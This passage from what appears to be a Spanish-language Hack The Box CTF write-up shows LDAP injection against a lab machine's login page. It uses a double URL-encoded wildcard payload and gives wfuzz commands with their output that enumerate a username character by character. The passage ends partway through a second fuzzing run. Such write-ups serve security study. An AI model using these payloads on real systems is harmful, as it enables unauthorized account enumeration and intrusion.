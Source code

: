Evidentemente, el usuario no existe, y tampoco sirve de nada eliminar los paréntesis porque no aplicaría la inyección, pero puedo insertar un wildcard (*) doblemente url-encodeado, que en expresiones regulares actúa como un comodín

```null
inputUsername=%25%32%61%25%32%39%25%32%39%25%32%39%2500&inputOTP=123
```

<img src="/writeups/assets/img/CTF-htb/9.png" alt="">

De esta manera puedo llegar a obtener usuarios válidos siguiendo las regex como condición booleana de ```true``` o ```false```, de la forma ```a*)))%00```, ```ad*)))%00```

```null
 wfuzz -c -s 1 --hh=2841 -w /usr/share/wordlists/SecLists/Fuzzing/char.txt -d 'inputUsername=FUZZ%252a%2529%2529%2529%2500&inputOTP=123' http://10.10.10.122/login.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.122/login.php
Total requests: 26

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000000012:   200        68 L     231 W      2822 Ch     "l"                                                                                                                                             

Total time: 0
Processed Requests: 26
Filtered Requests: 25
Requests/sec.: 0
```

Empieza por ```l```, ahora si la incorporo como primer caracter, obtendré el segundo, y así sucesivamente

```null
wfuzz -c -s 1 --hh=2842 -w /usr/share/wordlists/SecLists/Fuzzing/char.txt -d 'inputUsername=lFUZZ%252a%2529%2529%2529%2500&inputOTP=123' http://10.10.10.122/login.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.122/login.php
Total requests: 26

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
```